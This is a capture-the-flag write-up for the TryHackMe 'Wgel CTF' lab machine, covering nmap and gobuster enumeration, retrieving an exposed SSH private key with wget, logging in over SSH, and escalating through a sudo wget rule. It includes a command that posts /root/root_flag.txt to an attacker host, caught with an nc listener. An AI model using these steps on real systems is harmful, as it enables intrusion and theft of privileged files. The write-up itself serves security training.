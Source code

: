 # TRYHACKME : Wgel CTF

# ENUMERATION
## NMAP 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## GOBUSTER
```
/.htpasswd            (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 276]
/sitemap              (Status: 301) [Size: 312] [--> http://10.10.19.88/sitemap/]    
```

## GOBUSTER /sitemap
```
/.html                (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htaccess.js         (Status: 403) [Size: 277]
/.hta.js              (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.146.32/sitemap/.ssh/]
/.htpasswd.php        (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htpasswd.js         (Status: 403) [Size: 277]
/about.html           (Status: 200) [Size: 12232]
/blog.html            (Status: 200) [Size: 12745]
/contact.html         (Status: 200) [Size: 10346]
/css                  (Status: 301) [Size: 318] [--> http://10.10.146.32/sitemap/css/]
/fonts                (Status: 301) [Size: 320] [--> http://10.10.146.32/sitemap/fonts/]
/images               (Status: 301) [Size: 321] [--> http://10.10.146.32/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 317] [--> http://10.10.146.32/sitemap/js/]
/services.html        (Status: 200) [Size: 10131]
/shop.html            (Status: 200) [Size: 17257]
/work.html            (Status: 200) [Size: 11428]
```

## FIND ACCESS

Out of all the directories, the most suspicious is definitely the `/.ssh` one. You'll find an rsa id. Will be useful so im going to get a local copy.
```
$ wget http://[TARGET-IP]/sitemap/.ssh/id_rsa
$ chmod 600 id_rsa
```

> Now we just need to find a credential.

> Lurking around the `/sitemap` directory and its directories doesn't really have any valid credential. I tried to go back from the root directory and found a comment with a credential asking to update the website.

> Let's now get in the SSH

```
$ ssh -i id_rsa [CREDENTIAL]@[TARGET-IP]
```
> Then retrieve the user flag found in the `Documents/` directory

## PRIVILEGE ESCALATION

Now let's find a way to escalate.

I tried `sudo -l` and fortunately we found two possible entry:
```
[CREDENTIAL]@CorpOne:~$ sudo -l
Matching Defaults entries for [CREDENTIAL] on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
LFILE=file_to_read
wget -i $LFILE
User [CREDENTIAL] may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

We can go for the easy way which to use `wget` and upload the root flag to our local file.
### TARGET MACHINE
```
[CREDENTIAL]@CorpOne:/tmp$ sudo wget --post-file=/root/root_flag.txt [ATTACKER-IP]
--2025-04-30 10:00:53--  http://[ATTACKER-IP]/
Connecting to [ATTACKER-IP]:80... connected.
HTTP request sent, awaiting response... 200 No headers, assuming HTTP/0.9
Length: unspecified
Saving to: ‘index.html’

index.html            [ <=>        ]       1  --.-KB/s               Connection to 10.10.36.108 closed by remote host.
Connection to 10.10.36.108 closed.

```

### LOCAL MACHINE
```
$ nc -lvp 80 >root.txt
listening on [any] 80 ...
10.10.36.108: inverse host lookup failed: Unknown host
connect to [[ATTACKER-IP]] from (UNKNOWN) [10.10.36.108] 43318

└─$ ls          
id_rsa.1  root.txt  wgetctf
                                                                      
└─$ cat root.txt             
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: [ATTACKER-IP]
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

[RETRIEVE FLAG]

```






